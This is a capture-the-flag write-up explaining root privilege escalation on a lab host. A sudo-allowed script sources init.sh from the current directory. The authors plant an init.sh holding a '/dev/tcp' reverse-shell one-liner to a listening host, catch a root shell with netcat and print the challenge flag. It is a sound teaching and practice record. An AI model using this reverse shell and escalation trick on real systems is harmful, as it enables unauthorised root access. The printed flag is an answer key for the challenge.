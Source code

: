 # Writeup
by fluffyhake

## Solution
By running a existing script called `hmadmin.sh` with a custom `init.sh` script we can execute any command as root. By doing this, we can open a reverse shell as root and locate the flag in the root home directory.

### Example
Target:
```
[prime@ip-10-128-2-180 ~]$ echo 'sh -i >& /dev/tcp/10.128.2.186/9001 0>&1' > /home/activemq/init.sh
[prime@ip-10-128-2-180 ~]$ sudo /opt/CSCOlumos/rcmds/hmadmin.sh  
sudo /opt/CSCOlumos/rcmds/hmadmin.sh  

```
Host listening for reverse shell:
```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.128.2.186] from (UNKNOWN) [10.128.2.180] 33236
sh-4.2# whoami
whoami
root

sh-4.2# cd
cd

sh-4.2# cat root.txt
cat root.txt
EPT{5b2f8f8681b6621b519ef09adf371174}
```



## Explanation
***Notice**: We did not manage to complete this challenge before the CTF finished. Huge shoutout to **loevland** who pointed us in the [right direction](https://discordapp.com/channels/888378227679195147/888388640550576128/1302357247527096371) after the CTF.*


This challenge is the continuation of Prime Time (user). In Prime Time (user) we get a reverse shell using a exploit in Apache ActiveMQ. 

After the initial exploit, we started to read about privilege escalation techniques. This lead us to try the `sudo -l` command.

We see that our user is permitted to run scripts in `/opt/CSCOlumos/rcmds/` as sudo.

```
[prime@ip-10-128-2-180 /]$ sudo -l
sudo -l
Matching Defaults entries for prime on ip-10-128-2-180:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User prime may run the following commands on ip-10-128-2-180:
    (ALL) SETENV: NOPASSWD: /opt/CSCOlumos/rcmds/
```

We poked around in this directory and actually looked at the script which could be used for exploitation (`hmadmin.sh`). But we did not manage to get further due to time. Thankfully, the infra is still up after the CTF (🙌🫶), so we can continue this challenge.

Looking through the scripts in `/opt/CSCOlumos/rcmds/`, we find `hmadmin.sh`, which looks like this:
```
[prime@ip-10-128-2-180 rcmds]$ cat hmadmin.sh
#!/bin/bash
. init.sh

$INSTALL_HOME/bin/hmadmin.sh

```

It executes `init.sh`, but does not do anything to restrict what folder we read `init.sh` from. 
Knowing this, we can create our own `init.sh` script in our home folder and run whatever we want as root.

We used [revshells.com](https://www.revshells.com/) to create a reverse shell command to put in `init.sh`. In addition, we used netcat on our EPT BOX to listen for a shell.

*Creating the init.sh file to open a reverse shell as root. `10.128.2.186` is the host we listen on*
```
[prime@ip-10-128-2-180 rcmds]$ echo 'sh -i >& /dev/tcp/10.128.2.186/9001 0>&1' > /home/activemq/init.sh
```
*Listening for the shell on our EPT BOX*
```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 9001
listening on [any] 9001 ...
```

Let's execute the payload by changing into our home folder with the custom `init.sh` script and running `/opt/CSCOlumos/rcmds/hmadmin.sh`
```
[prime@ip-10-128-2-180 rcmds]$ cd 
cd /home/activemq/
[prime@ip-10-128-2-180 ~]$ sudo /opt/CSCOlumos/rcmds/hmadmin.sh  
sudo /opt/CSCOlumos/rcmds/hmadmin.sh  


```
*`hmadmin.sh` just read our local, custom, init.sh script and not the one in `/opt/CSCOlumos/rcmds/`!*

We now see a shell connecting to our socket! 🎉
```
listening on [any] 9001 ...
connect to [10.128.2.186] from (UNKNOWN) [10.128.2.180] 33236
sh-4.2# whoami
whoami
root
```

We find a file called `root.txt` in root's home folder. It contains the flag. 
```
sh-4.2# ls
ls
init.sh
user.txt
sh-4.2# cd
cd
sh-4.2# ls
ls
root.txt
sh-4.2# cat root.txt
cat root.txt
EPT{5b2f8f8681b6621b519ef09adf371174}
```

This was our first time doing reverse shells and privilege escalation to pwn a server. Thanks to the EPT-team for this new experience and a fun challenge!